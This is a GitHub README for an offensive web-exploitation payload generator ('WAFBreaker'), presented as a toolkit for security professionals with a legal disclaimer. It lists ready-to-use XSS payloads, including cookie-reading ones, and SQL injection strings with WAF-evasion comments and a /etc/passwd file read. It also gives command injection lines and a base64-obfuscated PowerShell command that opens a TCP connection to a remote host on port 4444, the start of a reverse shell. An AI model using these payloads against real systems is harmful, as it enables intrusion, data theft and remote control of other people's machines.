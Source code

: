 # 🛡️ Web Exploitation Payload Generator

![Python Version](https://img.shields.io/badge/python-3.8+-blue.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)
[![Documentation](https://img.shields.io/badge/docs-Advanced-blueviolet)](https://github.com/yourusername/web-exploitation-payload-generator/wiki)

> **The ultimate toolkit for security professionals**  
> Generate, test, and analyze evasion-ready payloads for critical web vulnerabilities

## 📋 Table of Contents
- [✨ Key Features](#key-features)
- [⚙️ Installation](#installation)
- [🚀 Usage Examples](#usage-examples)
- [🔧 Payload Modules](#payload-modules)
- [🔌 API Integration](#api-integration)
- [📤 Sample Outputs](#sample-outputs)
- [🤝 Contributing](#contributing)
- [📜 License](#license)
- [⚠️ Legal Disclaimer](#legal-disclaimer)

---

<a id="key-features"></a>
## ✨ Key Features

| Feature | Description | Advanced Capabilities |
|---------|-------------|----------------------|
| **XSS Payloads** | Reflected, Stored, DOM-based payloads | SVG/srcdoc/null-byte bypasses, JSFuck obfuscation |
| **SQL Injection** | Error-based, Union-based, Blind SQLi | WAF evasion with versioned comments, whitespace bypass |
| **Command Injection** | Linux/Windows payload variants | Encoding bypasses, argument splitting |
| **Payload Processing** | Base64/URL/Hex/Unicode encoding | 3-tier obfuscation engine with null bytes |
| **Tool Integration** | Burp Suite & OWASP ZAP API | Automated payload delivery |
| **Enterprise Output** | CLI, JSON, clipboard | Customizable templates, batch processing |

---

<a id="installation"></a>
## ⚙️ Installation

```bash
# Clone repository
git clone https://github.com/ameer4k/WAFBreaker.git
cd WAFBreaker

# Install dependencies
pip install -r requirements.txt

# Launch tool
python main.py [CLI_OPTIONS]  # Command-line interface
python main.py                # Graphical interface
```

---

<a id="usage-examples"></a>
## 🚀 Usage Examples

### CLI Interface (Penetration Testing)

```bash
# Generate SQLi payloads with WAF bypass in JSON format
python main.py --type sqli --technique union --bypass --output json > payloads.json

# Create obfuscated XSS payloads and send to Burp Suite
python main.py --type xss --obfuscate 3 --burp http://localhost:8080

# Generate Windows command injection payloads with Base64 encoding
python main.py --type cmdi --os windows --encode base64
```

### GUI Interface (Security Training)

# Open GUI Interface
python main.py 
![Payload Generator GUI Interface](https://via.placeholder.com/800x500.png?text=Payload+Generator+GUI+Interface)

Interactive payload generation with real-time preview

---

<a id="payload-modules"></a>
## 🔧 Payload Modules

### 1. XSS Payload Generator

```html
<!-- DOM-based XSS with evasion -->
<svg/onload=alert`${document.domain}`>
<img src=x oneerror=alert(1)>
<script>/*!*/al\u0065rt(1)/*!*/</script>
```

### 2. SQL Injection Engine

```sql
-- WAF Bypass Examples
1'/*!50000UNION*//*!50000SELECT*/@@version,2,3-- -
id=1' AND 1=(SELECT LOAD_FILE('/etc/passwd')) -- 
' OR 1=1 /*!0aNd*/ '1'='1
```

### 3. Command Injection

```bash
# Linux payloads
;cat /etc/passwd
`echo d2hvYW1p | base64 -d`  # whoami
```

```powershell
# Windows bypasses
powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5ADIALgAxADYAOAAuADEALgAxADAAIgAsADQANAA0ADQAKQA=
```

---

<a id="api-integration"></a>
## 🔌 API Integration

```python
# Send payloads directly to Burp Suite
from api_integration import BurpSuiteAPI

burp = BurpSuiteAPI("http://localhost:8080")
for payload in generated_payloads:
    burp.send_to_repeater(payload)
```

---

<a id="sample-outputs"></a>
## 📤 Sample Outputs

### JSON Export

```json
{
  "module": "XSS",
  "technique": "DOM-based",
  "payloads": [
    "<svg onload=alert(document.domain)>",
    "<img src=x:g onerror=\"eval(atob('YWxlcnQoJ1hTUycp'))\">",
    "javascript:alert`${btoa(document.cookie)}`"
  ]
}
```

### Command-Line Output

```text
[1] ' UNION SELECT @@version,user() -- 
[2] id=1'/*!50000UNION*//*!50000SELECT*/1,table_name,3 FROM information_schema.tables-- -
[3] ' AND (SELECT 1 FROM (SELECT SLEEP(5))a) --
```

---

<a id="contributing"></a>
## 🤝 Contributing

We welcome security researchers and developers to:

- Report issues and suggest features
- Submit PRs with new payload modules
- Improve evasion techniques
- Add support for additional security tools

See our [Contribution Guidelines](CONTRIBUTING.md) for details.

---

<a id="license"></a>
## 📜 License

This project is licensed under the MIT License - see [LICENSE](LICENSE) file for details.

---

<a id="legal-disclaimer"></a>
## ⚠️ Legal Disclaimer

**Important:** This tool is intended solely for:

- Educational purposes
- Security research
- Authorized penetration testing
- Improving defensive strategies

**Never use this tool on systems without explicit written permission.** The developers assume no liability and are not responsible for any misuse or damage caused by this software.
